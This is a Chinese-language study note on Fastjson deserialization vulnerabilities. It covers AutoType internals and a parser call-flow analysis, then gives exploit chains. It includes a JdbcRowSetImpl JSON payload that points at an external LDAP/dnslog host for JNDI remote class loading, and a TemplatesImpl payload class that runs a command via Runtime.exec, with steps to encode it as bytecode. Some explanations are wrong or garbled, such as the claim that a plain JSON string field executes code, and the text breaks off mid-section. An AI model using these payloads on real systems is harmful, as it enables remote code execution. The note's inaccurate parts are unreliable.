








# 	Java常见漏洞

## fastjson反序列化

#### 什么是fastjson:

fastjson 是一个 有阿里开发的一个开源Java 类库，可以将 Java 对象转换为 JSON 格式(序列化)，当然它也可以将 JSON 字符串转换为 Java 对象（[反序列化](https://so.csdn.net/so/search?q=反序列化&spm=1001.2101.3001.7020)）。Fastjson 可以操作任何 Java 对象，**即使是一些预先存在的没有源码的对象**


##### 原理：

fastjson的漏洞本质还是一个java的[反序列化漏洞](https://so.csdn.net/so/search?q=反序列化漏洞&spm=1001.2101.3001.7020)，由于引进了AutoType功能，fastjson在对json字符串反序列化的时候，会读取到@type的内容，将json内容反序列化为java对象并调用这个类的setter方法。

**为什么要引入autotype方法**：

fastjson在序列化以及反序列化的过程中并没有使用Java自带的序列化机制，而是自定义了一套机制。其实，对于JSON框架来说，想要把一个Java对象转换成字符串，可以有两种选择：

1.基于setter/getter

2.基于属性（AutoType）

基于setter/getter会带来什么问题呢，下面举个例子，假设有如下两个类：

```
class Apple implements Fruit {
    private Big_Decimal price;
    //省略 setter/getter、toString等
}

class iphone implements Fruit {
    private Big_Decimal price;
    //省略 setter/getter、toString等
}
```

```
实例化对象之后，假设苹果对象的price为0.5，Apple类对象序列化为json格式后为：

{"Fruit":{"price":0.5}}

假设iphone对象的price为5000,序列化为json格式后为：

{"Fruit":{"price":5000}}
```

当一个类只有一个接口的时候，将这个类的对象序列化的时候，就**会将子类抹去（apple/iphone）只保留接口的类型(Fruit)**，最后导致反序列化时无法得到原始类型。本例中，将两个json再反序列化生成java对象的时候，**无法区分**原始类是apple还是iphone。

为了解决上述问题： fastjson引入了基于属性（AutoType），即在序列化的时候，先把原始类型记录下来。**使用@type的键记录原始类型**，在本例中，

```
引入AutoType后，Apple类对象序列化为json格式后为：

{ "fruit":{ "@type":"com.hollis.lab.fastjson.test.Apple", "price":0.5 } }
```

```
引入AutoType后，iphone类对象序列化为json格式后为：

{ "fruit":{ "@type":"com.hollis.lab.fastjson.test.iphone", "price":5000 } }
```

这样在反序列化的时候就可以**区分原始的类**了。

##### 漏洞原理解析：

使用AutoType功能进行序列化的JSON字符会带有一个@type来标记其字符的原始类型，在反序列化的时候会读取这个@type，来试图把JSON内容反序列化到对象，并且会调用这个库的setter或者getter方法，然而，@type的类有可能被恶意构造，只需要合理构造一个JSON，**使用@type指定一个想要的攻击类库**就可以实现攻击。

常见的有sun官方提供的一个类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法支持传入一个rmi的源，只要解析其中的url就会支持远程调用！因此整个漏洞复现的原理过程就是：

```
攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。
存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，靶机服务器就会向rmi服务器请求待执行的命令。也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？
rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell啥的）
rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。
靶机服务器执行了恶意代码，被攻击者成功利用。
```


##### 特性：

- 提供了 toJSONString() 和 parseObject() 方法来将 Java 对象与 JSON 相互转换。调用toJSONString方 法即可将对象转换成 JSON 字符串，parseObject 方法则反过来将 JSON 字符串转换成对象。

  


使用fastjson进行序列化和反序列化操作：

```
public class Fastjson {
    public static void main(String[] args) {
        user user = new user("Bob", "123.com");

        //序列化方式--指定类和不指定类
        String json1 = JSON.toJSONString(user);
        System.out.println(json1);//{"password":"123.com","username":"Aur0ra.sec"}
        String json2 = JSON.toJSONString(user, SerializerFeature.WriteClassName);
        System.out.println(json2);//{"@type":"com.aur0ra.sec.fastjson.User","password":"123.com","username":"Aur0ra.sec"}


        //反序列化
        //默认解析为JSONObject
        System.out.println(JSON.parse(json1));      //{"password":"123.com","username":"Bob"}
        System.out.println(JSON.parse(json1).getClass().getName());    //com.alibaba.fastjson.JSONObject

        //依据序列化中的@type进行自动反序列化成目标对象类型
        System.out.println(JSON.parse(json2));      //com.aur0ra.sec.fastjson.user@24b1d79b
        System.out.println(JSON.parse(json2).getClass().getName()); //com.aur0ra.sec.fastjson.user

        //手动指定type，反序列化成目标对象类型
        System.out.println(JSON.parseObject(json1, user.class)); //com.aur0ra.sec.fastjson.user@68ceda24
        System.out.println(JSON.parseObject(json1, user.class).getClass().getName()); //com.aur0ra.sec.fastjson.user

    }
}

```

#### 解析：

Fastjson是一个JSON工具库，它的作用是把Java对象转换为JSON形式，也可以用来将JSON转换为Java对象。在反序列化时，会进入parseField方法，然后调用setValue(object, value)方法，这里是执行构造的恶意代码，最后造成代码执行。

该漏洞的利用点有两个：

第一是需要我们指定一个类，这个类的作用是为了让程序获取这个类来进行反序列化操作。

第二是需要将需要执行的代码提供给程序，所以这里使用了rmi。然后反序列化的时候会去请求rmi服务器，地址为：dnslog.cn/aaa。然后加载aaa这个恶意class文件从而造成代码执行。

请注意，目标服务器存在fastjson，没有对用户传输的数据进行严格过滤。如果有主机B的LDAP服务指定加载主机C的恶意java类，主机A通过主机B的LDAP服务最终加载并执行主机C的恶意java类。

为了防止Fastjson反序列化漏洞，需要对用户传输的数据进行严格过滤，并确保不加载恶意的java类。同时，请及时更新Fastjson库，并避免在不安全的网络环境中使用含有Fastjson库的系统。

#### 案例讲解：

假设有一个名为"User"的Java类，具有以下属性：

```java
public class User {  
    private String name;  
    private int age;  
    // 省略其他属性  
}
```

现在，我们使用Fastjson库将一个JSON字符串转换为User对象。例如：

```java
String json = "{\"name\":\"Alice\",\"age\":20}";  
User user = JSON.parseObject(json, User.class);//parseObject() ：反序列化，将json格式转化为对象
```

在这个例子中，我们将JSON字符串解析为User对象，并成功地获取了name和age属性。

然而，如果攻击者在JSON字符串中添加了一些恶意代码，例如：

```java
String json = "{\"name\":\"Alice\",\"age\":20,\"maliciousCode\":\"System.out.println(\"Hello, World!\");\"}";  
User user = JSON.parseObject(json, User.class);
```

在这个例子中，攻击者在JSON字符串中添加了一个名为"maliciousCode"的属性，它的值为一段恶意代码。当程序执行JSON反序列化时，这段恶意代码将被执行。

现在，假设我们有一个名为"deserialize"的方法，它接受一个JSON字符串作为输入，并将其反序列化为指定的Java对象。例如：

```java
public Object deserialize(String json, Class<?> clazz) {  
    return JSON.parseObject(json, clazz);  
}
```

这个方法很简单，它只是将JSON字符串解析为指定的Java对象。然而，如果攻击者在JSON字符串中添加了恶意代码，这个方法就会执行这段恶意代码。例如：

```java
String json = "{\"name\":\"Alice\",\"age\":20,\"maliciousCode\":\"System.out.println(\"Hello, World!\");\"}";  
User user = (User) deserialize(json, User.class);
```

在这个例子中，攻击者在JSON字符串中添加了恶意代码，然后将其传递给deserialize方法。当方法执行时，恶意代码将被执行。由于这个方法返回的是User对象，所以恶意代码将在User对象中执行。

为了防止Fastjson反序列化漏洞，我们需要对用户传输的数据进行严格过滤，并确保不加载恶意的Java类。同时，我们还需要及时更新Fastjson库，并避免在不安全的网络环境中使用含有Fastjson库的系统。

#### 正常解析：

```java
package myJavaSecurity;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;


public class myFastJasonDemo {
    public static void main(String[] args) {
        String p= "{\"param1\":\"test1\",\"param2\":\"test2\"}";
        JSONObject jsonObject = JSON.parseObject(p);//将字符串转换为json对象
        System.out.println(jsonObject);
        System.out.println(jsonObject.getString("param1"));////获取其中一个叫param1的值
        
    }
}

```


#### 指定解析类型为对象：

```
package myJavaSecurity;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class myFastJasonDemo2 {
    public static void main(String[] args) {

        String s="{\"age:\"21\"name:\"lisa\"}";
        person p=JSON.parseObject(s,person.class);
        System.out.println(person.getName());
    }

```

运行：


报错：


发现是json格式问题报错

#### 根据字符串反序列化任意类：

在Java反序列化中，`@Type`注解是用于指定序列化/反序列化过程中使用的类型。它通常用于在反序列化过程中指定对象的具体类型，以便正确地将JSON数据映射为Java对象。

使用`@Type`注解时，需要在注解中指定要使用的类型名称。这个类型名称可以是任何有效的Java类名或接口名。当反序列化JSON数据时，Java反序列化器会根据`@Type`注解指定的类型名称，将JSON数据映射为相应的Java对象。

下面是一个使用`@Type`注解的示例：

```java
import com.fasterxml.jackson.annotation.JacksonInject;  
import com.fasterxml.jackson.annotation.JsonCreator;  
import com.fasterxml.jackson.annotation.JsonInclude;  
import com.fasterxml.jackson.annotation.JsonProperty;  
import com.fasterxml.jackson.databind.ObjectMapper;  
import com.fasterxml.jackson.databind.annotation.JsonDeserialize;  
import com.fasterxml.jackson.databind.annotation.JsonSerialize;  
  
public class Person {  
    @JacksonInject  
    private ObjectMapper objectMapper;  
      
    @JsonProperty("name")  
    private String name;  
      
    @JsonProperty("age")  
    private int age;  
      
    @JsonCreator  
    public Person(@JsonProperty("name") String name, @JsonProperty("age") int age) {  
        this.name = name;  
        this.age = age;  
    }  
      
    public String getName() {  
        return name;  
    }  
      
    public void setName(String name) {  
        this.name = name;  
    }  
      
    public int getAge() {  
        return age;  
    }  
      
    public void setAge(int age) {  
        this.age = age;  
    }  
}
```

在这个示例中，我们使用了Jackson库进行JSON序列化和反序列化。在Person类中，我们使用了`@JacksonInject`注解来注入ObjectMapper实例，以便在反序列化过程中使用。然后，我们使用`@JsonProperty`注解来指定JSON数据中对应的字段名称。在构造函数中，我们使用`@JsonCreator`注解来指示Jackson反序列化器使用这个构造函数来将JSON数据映射为Person对象。

如果我们有一个JSON字符串，如下所示：

```json
{  
  "name": "John Doe",  
  "age": 30  
}
```

我们可以使用以下代码将其反序列化为Person对象：

```java
String jsonString = "...";  // JSON string to be deserialized  
Person person = objectMapper.readValue(jsonString, Person.class);
```

#### 实例：

```
package myJavaSecurity;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
public class myFastJasonDemo2 {
    public static void main(String[] args) {
        String s="{\"age\":\"21\",\"name\":\"lisa\"}";
        person p=JSON.parseObject(s,person.class);
        System.out.println(p.getName());
        System.out.println(s);
        String s3 = "{\"@type\":\"myJavaSecurity.person\",\"age\":18,\"name\":\"abc\"}";
        JSONObject jsonObject = JSON.parseObject(s3);
        System.out.println(jsonObject);
    }
}


```


#### 调用流程分析：

漏洞产生点

后面几行就是转一个JSONObject，所以我们直接跟进parse方法


这里调用了DefaultJSONParser类对传入字符串进行解析，一般情况下都是调用这个，接下来调用DefaultJSONParser对象中的parse方法

这里面主要分为两个阶段，一个是对字符串形式的判断，是否为json形式，一个是对key和value的获取，先获取key的值，再获取value的值。


继续跟进到parse的第二个构造方法，这里是一段switch语句获取token来判断json格式，当开头为 **{** 时token为12，则进入到LBRACE分支


然后跟进到parseObject方法，在这里实现获取key的操作，这里我们获取到的key值是@type（检测是否包含@type）


而默认的DEFAULT_TYPE_KEY就是@type，在获取到key以后会做一个特殊的调整，表示应该做java反序列化还是单纯的json反序列化，这里匹配到@type，所以后续要做Java反序列化

我们可以看到对类进行了**loadClass**加载，然后后面我们就要按照Java的逻辑来进行反序列化操作，这里第一步就是获取了反序列化器，然后用反序列化器进行反序列化操作

反序列化器


我们重点对反序列化过程进行分析，这里在创建反序列化器的时候需要先获取类里面的内容，跟进到config类


我们可以看到大概在这里有一个判断反序列化类内容的过程，如果不属于上面的几种类型，则通过JavaBean来解析类，继续跟进createJavaBeanDeserializer方法

解析javabean


首先检查asm是否启用，如果启用则进入asm过程

> ASM是一种高性能的JSON序列化和反序列化技术，它通过在运行时动态选择合适的方法来处理JSON数据，以提高性能。默认情况下，Fastjson会根据系统环境决定是否启用ASM。
>
> 如果`asmEnable`为`true`，则启用ASM，这可以在序列化和反序列化JSON时提供更好的性能。如果`asmEnable`为`false`，则禁用ASM，这将使用默认的序列化和反序列化方法。
>
> 请注意，`asmEnable`是Fastjson内部的一个设置，通常不需要用户手动配置。Fastjson会根据系统环境自动进行判断和设置。

- 在创建类的反序列化器的时候，需要把类里面的东西进行了解，这里就通过build函数，我们再来看一下build函数：

其中用于获取类内容是通过`JavaBeanInfo.build`函数，跟进到build函数


获取所有方法

分析发现build函数的整个逻辑，先遍历了一遍method（set），然后遍历了一遍public fields，然后又遍历了一遍method（get）

满足set的条件如下


满足get的条件如下


最后再返回JavaBeanInfo对象


#### 漏洞链特点以及原理：

根据上文的分析，在反序列化时，parse触发了set方法，parseObject同时触发了set和get方法，由于存在这种`autoType`特性。如果`@type`标识的类中的setter或getter方法存在恶意代码，那么就有可能存在fastjson反序列化漏洞。

首先我们先来总结一下FastJson反序列化和原生反序列化利用不同的点：

- **FastJson不需要实现Serializable**（序列化接口）
- **不需要变量不是transient/可控变量：**
  1. 变量有对应的setter
  2. 或是public/static
  3. 或满足条件的getter(返回值是)：

- **反序列化入口点不是readObject，而是setter或者是getter**

- **执行点是相同的：反射或者类加载**

  

Fastjson 序列化对象的方法主要是`toJSONString` 方法，而反序列化还原对象的方法有3个

```
parse(String text);
parseObject(Srting text, Class\clazz);
parseObject(String text);
```

**总结点：**

- 使用 JSON.parse(jsonString) 和 JSON.parseObject(jsonString, Target.class)，两者调用链一致，前者会在 jsonString 中解析字符串**获取 @type 指定的类**，后者则会直接使用参数中的class。
- fastjson 在创建一个类实例时会通过反射调用类中符合条件的 getter/setter 方法，其中 getter 方法需满足条件：方法名长于 4、不是静态方法、以 get 开头且第4位是大写字母、方法不能有参数传入、继承自 Collection|Map|AtomicBoolean|AtomicInteger|AtomicLong、此属性没有 setter 方法；setter 方法需满足条件：方法名长于 4，以 set 开头且第4位是大写字母、非静态方法、返回类型为 void 或当前类、参数个数为 1 个。具体逻辑在 com.alibaba.fastjson.util.JavaBeanInfo.build() 中。
- 使用 JSON.parseObject(jsonString) 将会返回 JSONObject 对象，且类中的所有 getter 与setter 都被调用。
- 如果目标类中私有变量没有 setter 方法，但是在反序列化时仍想给这个变量赋值，则需要使用 Feature.SupportNonPublicField 参数。
- fastjson 在为类属性寻找 get/set 方法时，调用函数 com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch() 方法，会忽略 _|- 字符串，也就是说哪怕你的字段名叫 *a_g_e*，getter 方法为 getAge()，fastjson 也可以找得到，在 1.2.36 版本及后续版本还可以支持同时使用 _ 和 - 进行组合混淆。
- fastjson 在反序列化时，如果 Field 类型为 byte[]，将会调用com.alibaba.fastjson.parser.JSONScanner#bytesValue 进行 base64 解码，对应的，在序列化时也会进行 base64 编码。

### FastJson<1.2.24：

#### `JdbcRowSetImpl`类+JNDI注入（出网）：

##### 分析

首先我们找到一个JNDI注入（java提供的功能可以远程加载类并且执行）


jdbc这个类就用了这个jndi功能，look up查找远程地址，可以通过lookup执行远程恶意类，所以看this.get…可不可控

可以看到调用了getDataSourceName方法，因此我们看一下`getDataSourceName`下面的参数可不可控，可以看到存在setter方法，所以可控


形参：jndi远程加载链接地址

我们就要找一下对应的setter或者是符合条件的getter方法能够调用connect的方法


一共找到了三处，其中get并不满足要求，所以我们选择set（setautocommit有set方法）


##### EXP

现在我们来构造exp，用yakit开一个dnslog

```java
package com.y5neko.sec.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class demo {
    public static void main(String[] args) {
        String s3 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://fastjson.eyutdtslkb.dgrh3.cn/rNMfFuPI\",\"AutoCommit\":\"false\"}}";//datasourcename对应的链接 不论true还是false都能调用connect方法
        Object object1 = JSON.parse(s3);
        Object object2 = JSON.parseObject(s3, Person.class);
        Object object3 = JSON.parseObject(s3);
    }
}
    exp是一个脚本或者程序能够实现功能的
    pyload就是恶意代码有效载荷，核心代码
    shell执行命令的环境，权限
```


说明反序列化利用成功，直接起一个JNDI反连

ldap://fastjson.eyutdtslkb.dgrh3.cn/rNMfFuPI表示执行一次命令弹计算机


##### 限制

因为需要反连，所以要求出网(攻击目标连接本机，攻击目标需要有网)

#### `TemplatesImpl`

首先对`TemplatesImpl`进行举例理解：

```
假设你是一家电商公司的开发人员，你的公司使用了Fastjson库来处理JSON数据。有一天，你收到了一份来自第三方的恶意报告，报告中称你的公司存在一个Fastjson反序列化漏洞，攻击者可以利用这个漏洞来窃取公司的敏感数据或者执行恶意操作。

经过调查，你发现这个漏洞与TemplatesImpl类有关。攻击者通过构造恶意的JSON数据，利用了TemplatesImpl类的getOutputProperties()方法进行攻击。

在这个案例中，攻击者首先构造了一个恶意的JSON数据，其中包含了一些特殊的字段和结构。然后，他们将这个恶意JSON数据发送给你的公司，试图进行反序列化操作。

当你的程序接收到这个恶意JSON数据时，它会使用TemplatesImpl类来进行反序列化操作。在反序列化过程中，TemplatesImpl类的getOutputProperties()方法会被调用。

在正常的使用情况下，getOutputProperties()方法会返回一个Transformer对象，用于将JSON数据映射到Java对象。然而，攻击者精心构造的恶意JSON数据中包含了一些特殊的字段和结构，这些字段和结构在反序列化时会被getOutputProperties()方法处理。

当TemplatesImpl类的getOutputProperties()方法处理这些特殊的字段和结构时，它会生成一个新的Transformer对象。这个Transformer对象是由攻击者控制的，因此它可以执行任意代码。攻击者通过这种方式，可以在你的程序中执行恶意操作，窃取敏感数据或者进行其他恶意行为。
```

##### 漏洞原理：

Fastjson 通过 bytecodes 字段传入恶意类，调用 outputProperties 属性的 getter 方法时，实例化传入的恶意类，调用其构造方法，造成任意命令执行。

##### 分析：

下面看下Poc是怎么构造的，当使用fastjson解析json时，会自动调用其属性的get方法。
TypeUtil.clss 813行下断点，会加载TemplatesImpl类

f8会对传入的payload做处理将_去掉，这是构造payload的关键一步。先处理_bytecodes

当处理_bytecodes时，f7跟进bytesValue

对传进的做base64解码处理，这就是为什么payload做base64编码处理的原因

为什么_tfactory为{}？

> fastjson只会反序列化公开的属性和域，而com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl中_bytecodes却是私有属性，_name也是私有域，所以在parseObject的时候需要设置Feature.SupportNonPublicField，这样_bytecodes字段才会被反序列化。_tfactory这个字段在TemplatesImpl既没有get方法也没有set方法，这没关系，我们设置_tfactory为{ },fastjson会调用其无参构造函数得_tfactory对象，这样就解决了某些版本中在defineTransletClasses()用到会引用_tfactory属性导致异常退出。

当处理_outputProperties时，也会把_去掉。

调用outputProperties属性的get方法：

调用newTransformer类

调用TransformerImpl类，继续f7跟进

调用getTransletInstance，为什么poc中的_name和_class不为null的原因如下，387行实例化了传入了EvilObject.class类。

这里调用了EvilObject的构造函数，恶意代码执行。

上面是漏洞调试分析，关于pop链执行的构成如下分析：
首先_bytecodes会传入getTransletInstance方法中的defineTransletClasses方法，defineTransletClasses方法会根据_bytecodes字节数组new一个_class，_bytecodes加载到_class中，最后根据_class,用newInstance生成一个java实例：

触发getTransletInstance，看谁调用这个类，alt+f7

在newTransformer中触发了getTransletInstance方法，那问题又来了怎么触发newTransformer?alt+f7

getOutputProperties会调用newTransformer，而fastjson会调用属性的get方法，所以传入_outputProperties导致此方法执行，完整的形成了pop链。

调用链如下：


```
https://www.cnblogs.com/xyylll/p/15390366.html
https://www.cnblogs.com/afanti/p/10193158.html

```

2.

首先我们来分析一下`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`

我们需要找到一个存在漏洞的getter或者setter，我们找到了这个方法`getOutputProperties()`，在parseObject反序列化时会调用

getOutputProperties内部调用了newTransformer()方法，而newTransformer()内部调用了getTransletInstance()方法获取Translet对象


继续跟进内部，其中通过defineTransletClasses获取字节码来生成返回的Translet对象


而defineTransletClasses方法则通过内部的私有变量_bytecodes生成返回的Translet对象


这里这个\_bytecodes私有变量就是整个攻击设计的核心所在，虽然FastJson默认只能反序列化公有属性，但是可以在JSON串中指定\_bytecodes为我们恶意攻击类的字节码，同时调用`JSON.parseObject(json, Object.class, Feature.SupportNonPublicField)`来反序列化私有属性，**那么_bytecodes就可以是任意指定代码**

也就是说，如果事先定义好了Translet返回Class类的内容，并且在自定义的Translet类的构造函数中实现攻击代码，并且把攻击代码转化成字节码，传入TemplatesImpl的私有变量_bytecodes中，那么反序列化生成TemplatesImpl时就会使用我们自定义的字节码来生成Translet类，从而触发Translet构造函数中的攻击代码

##### EXP

首先构造一个恶意类，继承自AbstractTranslet类，因为时抽象类所以要实现其中的两个方法

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.fastjson;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class TemplatesImplPayload extends AbstractTranslet {
    static {
        System.err.println("Success");
        try {
            String[] cmd = {"calc"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {
        // anything
    }

    @Override
    public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {
        // anything
    }
}
```

将上面的整个类编译成class文件后读取字节码，再转成base64

```
